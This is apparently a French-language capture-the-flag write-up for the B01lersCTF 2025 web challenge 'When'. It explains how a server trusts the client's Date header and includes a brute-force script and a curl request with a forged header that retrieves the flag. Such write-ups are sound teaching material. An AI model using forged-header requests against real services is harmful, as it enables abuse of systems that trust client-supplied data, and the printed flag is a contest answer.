 ```yaml
---
title: "B01lersCTF 2025 : When | Web"
date: 2025-04-22
draft: false
categories: ["Web"]
ctf: "B01lersCTF 2025"
challenge: "When"
author: "Reyko"
---
```


# Challenge : **when**

## Énoncé

> the sunk cost fallacy

`https://when.atreides.b01lersc.tf/`

## 1. Analyse : 

Le backend Express gère :

- **GET** : sert le contenu statique (HTML/CSS/JS/​assets) sans limiter.

- **POST** `/gamble` : l’unique endpoint soumis au rate‑limit (60 requêtes/minute).

```ts
// Calcul du nombre "number" (timestamp en secondes)
const time   = req.headers.date ? new Date(req.headers.date) : new Date();
const number = Math.floor(time.getTime() / 1000);

// Hachage SHA-256 de number.toString()
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()));
}

gamble(number).then(data => {
    const bytes = new Uint8Array(data);
    // Si les deux premiers octets sont 0xFF, on renvoie le flag
    if (bytes[0] == 0xFF && bytes[1] == 0xFF) {
        res.send({ success: true,
                   result: "1111111111111111",
                   flag: "bctf{…}" });
    } else {
        // sinon, on renvoie juste les 16 premiers bits en binaire
        const bits16 = bytes[0].toString(2).padStart(8,'0')
                     + bytes[1].toString(2).padStart(8,'0');
        res.send({ success: true, result: bits16 });
    }
});
```

## 2. Observations : 

 Sunk cost fallacy : on pourrait croire qu’il faut spammer des requêtes jusqu’à « tomber » sur le flag, mais…

Le service ne dépend pas de vos tentatives précédentes : chaque appel `/gamble` est indépendant et ne stocke aucun état de session.

Le flag n’apparaît jamais de manière aléatoire : il est renvoyé uniquement le jour où le SHA‑256 du timestamp (en secondes) commence par deux octets à `0xFF`.

## 3. Brute‑force hors‑ligne : 

1. But : trouver un entier NN tel que :
`h SHA256(str(N))[0] == 0xFF && SHA256(str(N))[1] == 0xFF`

2. find_n.py :

```python
#!/usr/bin/env python3
import hashlib

def find_number(limit=200_000):
 for n in range(limit):
     h = hashlib.sha256(str(n).encode()).digest()
     if h[0] == 0xFF and h[1] == 0xFF:
         return n
 raise RuntimeError("Aucun N trouvé, augmentez la limite")

if __name__ == "__main__":
 N = find_number()
 print("Found N =", N)
````

```console
$ python3 find_n.py
Found N = 30398
```

## 4. Solve : 

1. Générer l’en‑tête `Date` correspondant à NN :

    ```bash
    DATE=$(python3 - <<EOF
    import datetime
    print(
      datetime.datetime.utcfromtimestamp(30398)
      .strftime('%a, %d %b %Y %H:%M:%S GMT')
    )
    EOF
    )
    ```

2. **Faire une seule requête** avec ce header :

    ```bash
    curl -s \
      -H "Date: $DATE" \
      -X POST https://when.atreides.b01lersc.tf/gamble | jq
    ```

3. **Réponse** :

```json
{
  "success": true,
  "result": "1111111111111111",
  "flag": "bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}"
}
```

Flag : 

`bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}`
